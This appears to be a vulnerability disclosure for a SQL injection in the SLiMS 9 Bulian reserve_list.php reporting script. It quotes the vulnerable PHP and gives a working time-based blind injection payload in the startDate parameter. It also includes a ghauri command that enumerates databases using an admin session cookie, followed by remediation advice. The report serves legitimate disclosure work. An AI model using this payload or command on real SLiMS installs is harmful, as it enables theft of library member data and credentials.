



# SQL Injection Vulnerability in SLiMS Reserve List Module

## Summary
A SQL Injection vulnerability exists in SLiMS 9 (Bulian) Reserve List reporting module that allows authenticated users with circulation privileges to extract sensitive database information.

## Vulnerability Details
- **Type**: SQL Injection
- **Severity**: High (CVSS 8.1)
- **File**: `/admin/modules/reporting/customs/reserve_list.php`
- **Lines**: 127-129
- **Authentication**: Required (Admin/Librarian)

## Vulnerable Code
```php
if (isset($_GET['startDate']) AND isset($_GET['untilDate'])) {
    $criteria .= ' AND (TO_DAYS(r.reserve_date) BETWEEN TO_DAYS(\''.$_GET['startDate'].'\') AND
        TO_DAYS(\''.$_GET['untilDate'].'\'))';
}
```

**Issue**: GET parameters are directly concatenated into SQL query without sanitization.

## Reproduction Steps

### Step 1: Create a Reservation
1. Login as member/librarian
2. Navigate to catalog and select a book
3. Create a reservation for testing purposes

**Screenshot - Creating Reservation:**



### Step 2: Access Reserve List Report
1. Login as Admin/Librarian
2. Navigate to: `circulation > Reserve (F4)`
3. The vulnerable endpoint will be accessible at:
```
http://localhost:8080/admin/modules/reporting/customs/reserve_list.php
```

### Step 3: Test SQL Injection

**Request (SQL Injection):**
```http
GET /admin/modules/reporting/customs/reserve_list.php?reportView=true&startDate=2026-01-01'AND(SELECT(0)FROM(SELECT(SLEEP(7)))a)AND'Z&untilDate=2026-01-31
```

**Screenshot - Injection Test:**



Result: 7-second delay confirms SQL injection vulnerability.

### Step 4: Automated Testing with Ghauri

**Command:**
```bash
ghauri -u 'http://127.0.0.1:8080/admin/modules/reporting/customs/reserve_list.php?reportView=true&startDate=2026-01-01*&untilDate=2026-01-31' \
  -H 'Cookie: SenayanAdmin=<session_id>; admin_logged_in=1' \
  --dbs --level 3
```

**Screenshot - Ghauri Detection:**



## Impact
- Extract sensitive data (member info, credentials, reservation records)
- Database enumeration
- Potential privilege escalation

## Remediation

```php
if (isset($_GET['startDate']) AND isset($_GET['untilDate'])) {
    $start = $dbs->real_escape_string($_GET['startDate']);
    $until = $dbs->real_escape_string($_GET['untilDate']);
    
    // Validate date format
    if (preg_match('/^\d{4}-\d{2}-\d{2}$/', $start) && 
        preg_match('/^\d{4}-\d{2}-\d{2}$/', $until)) {
        $criteria .= ' AND (TO_DAYS(r.reserve_date) BETWEEN TO_DAYS(\''.$start.'\') AND TO_DAYS(\''.$until.'\'))';
    }
}
```

**Recommendations:**
1. Use prepared statements with parameter binding
2. Implement strict input validation
3. Conduct security audit of all reporting modules

## References
- CWE-89: SQL Injection
- OWASP A03:2021 – Injection

## Disclosure
Report to SLiMS development team: https://github.com/slims/slims9_bulian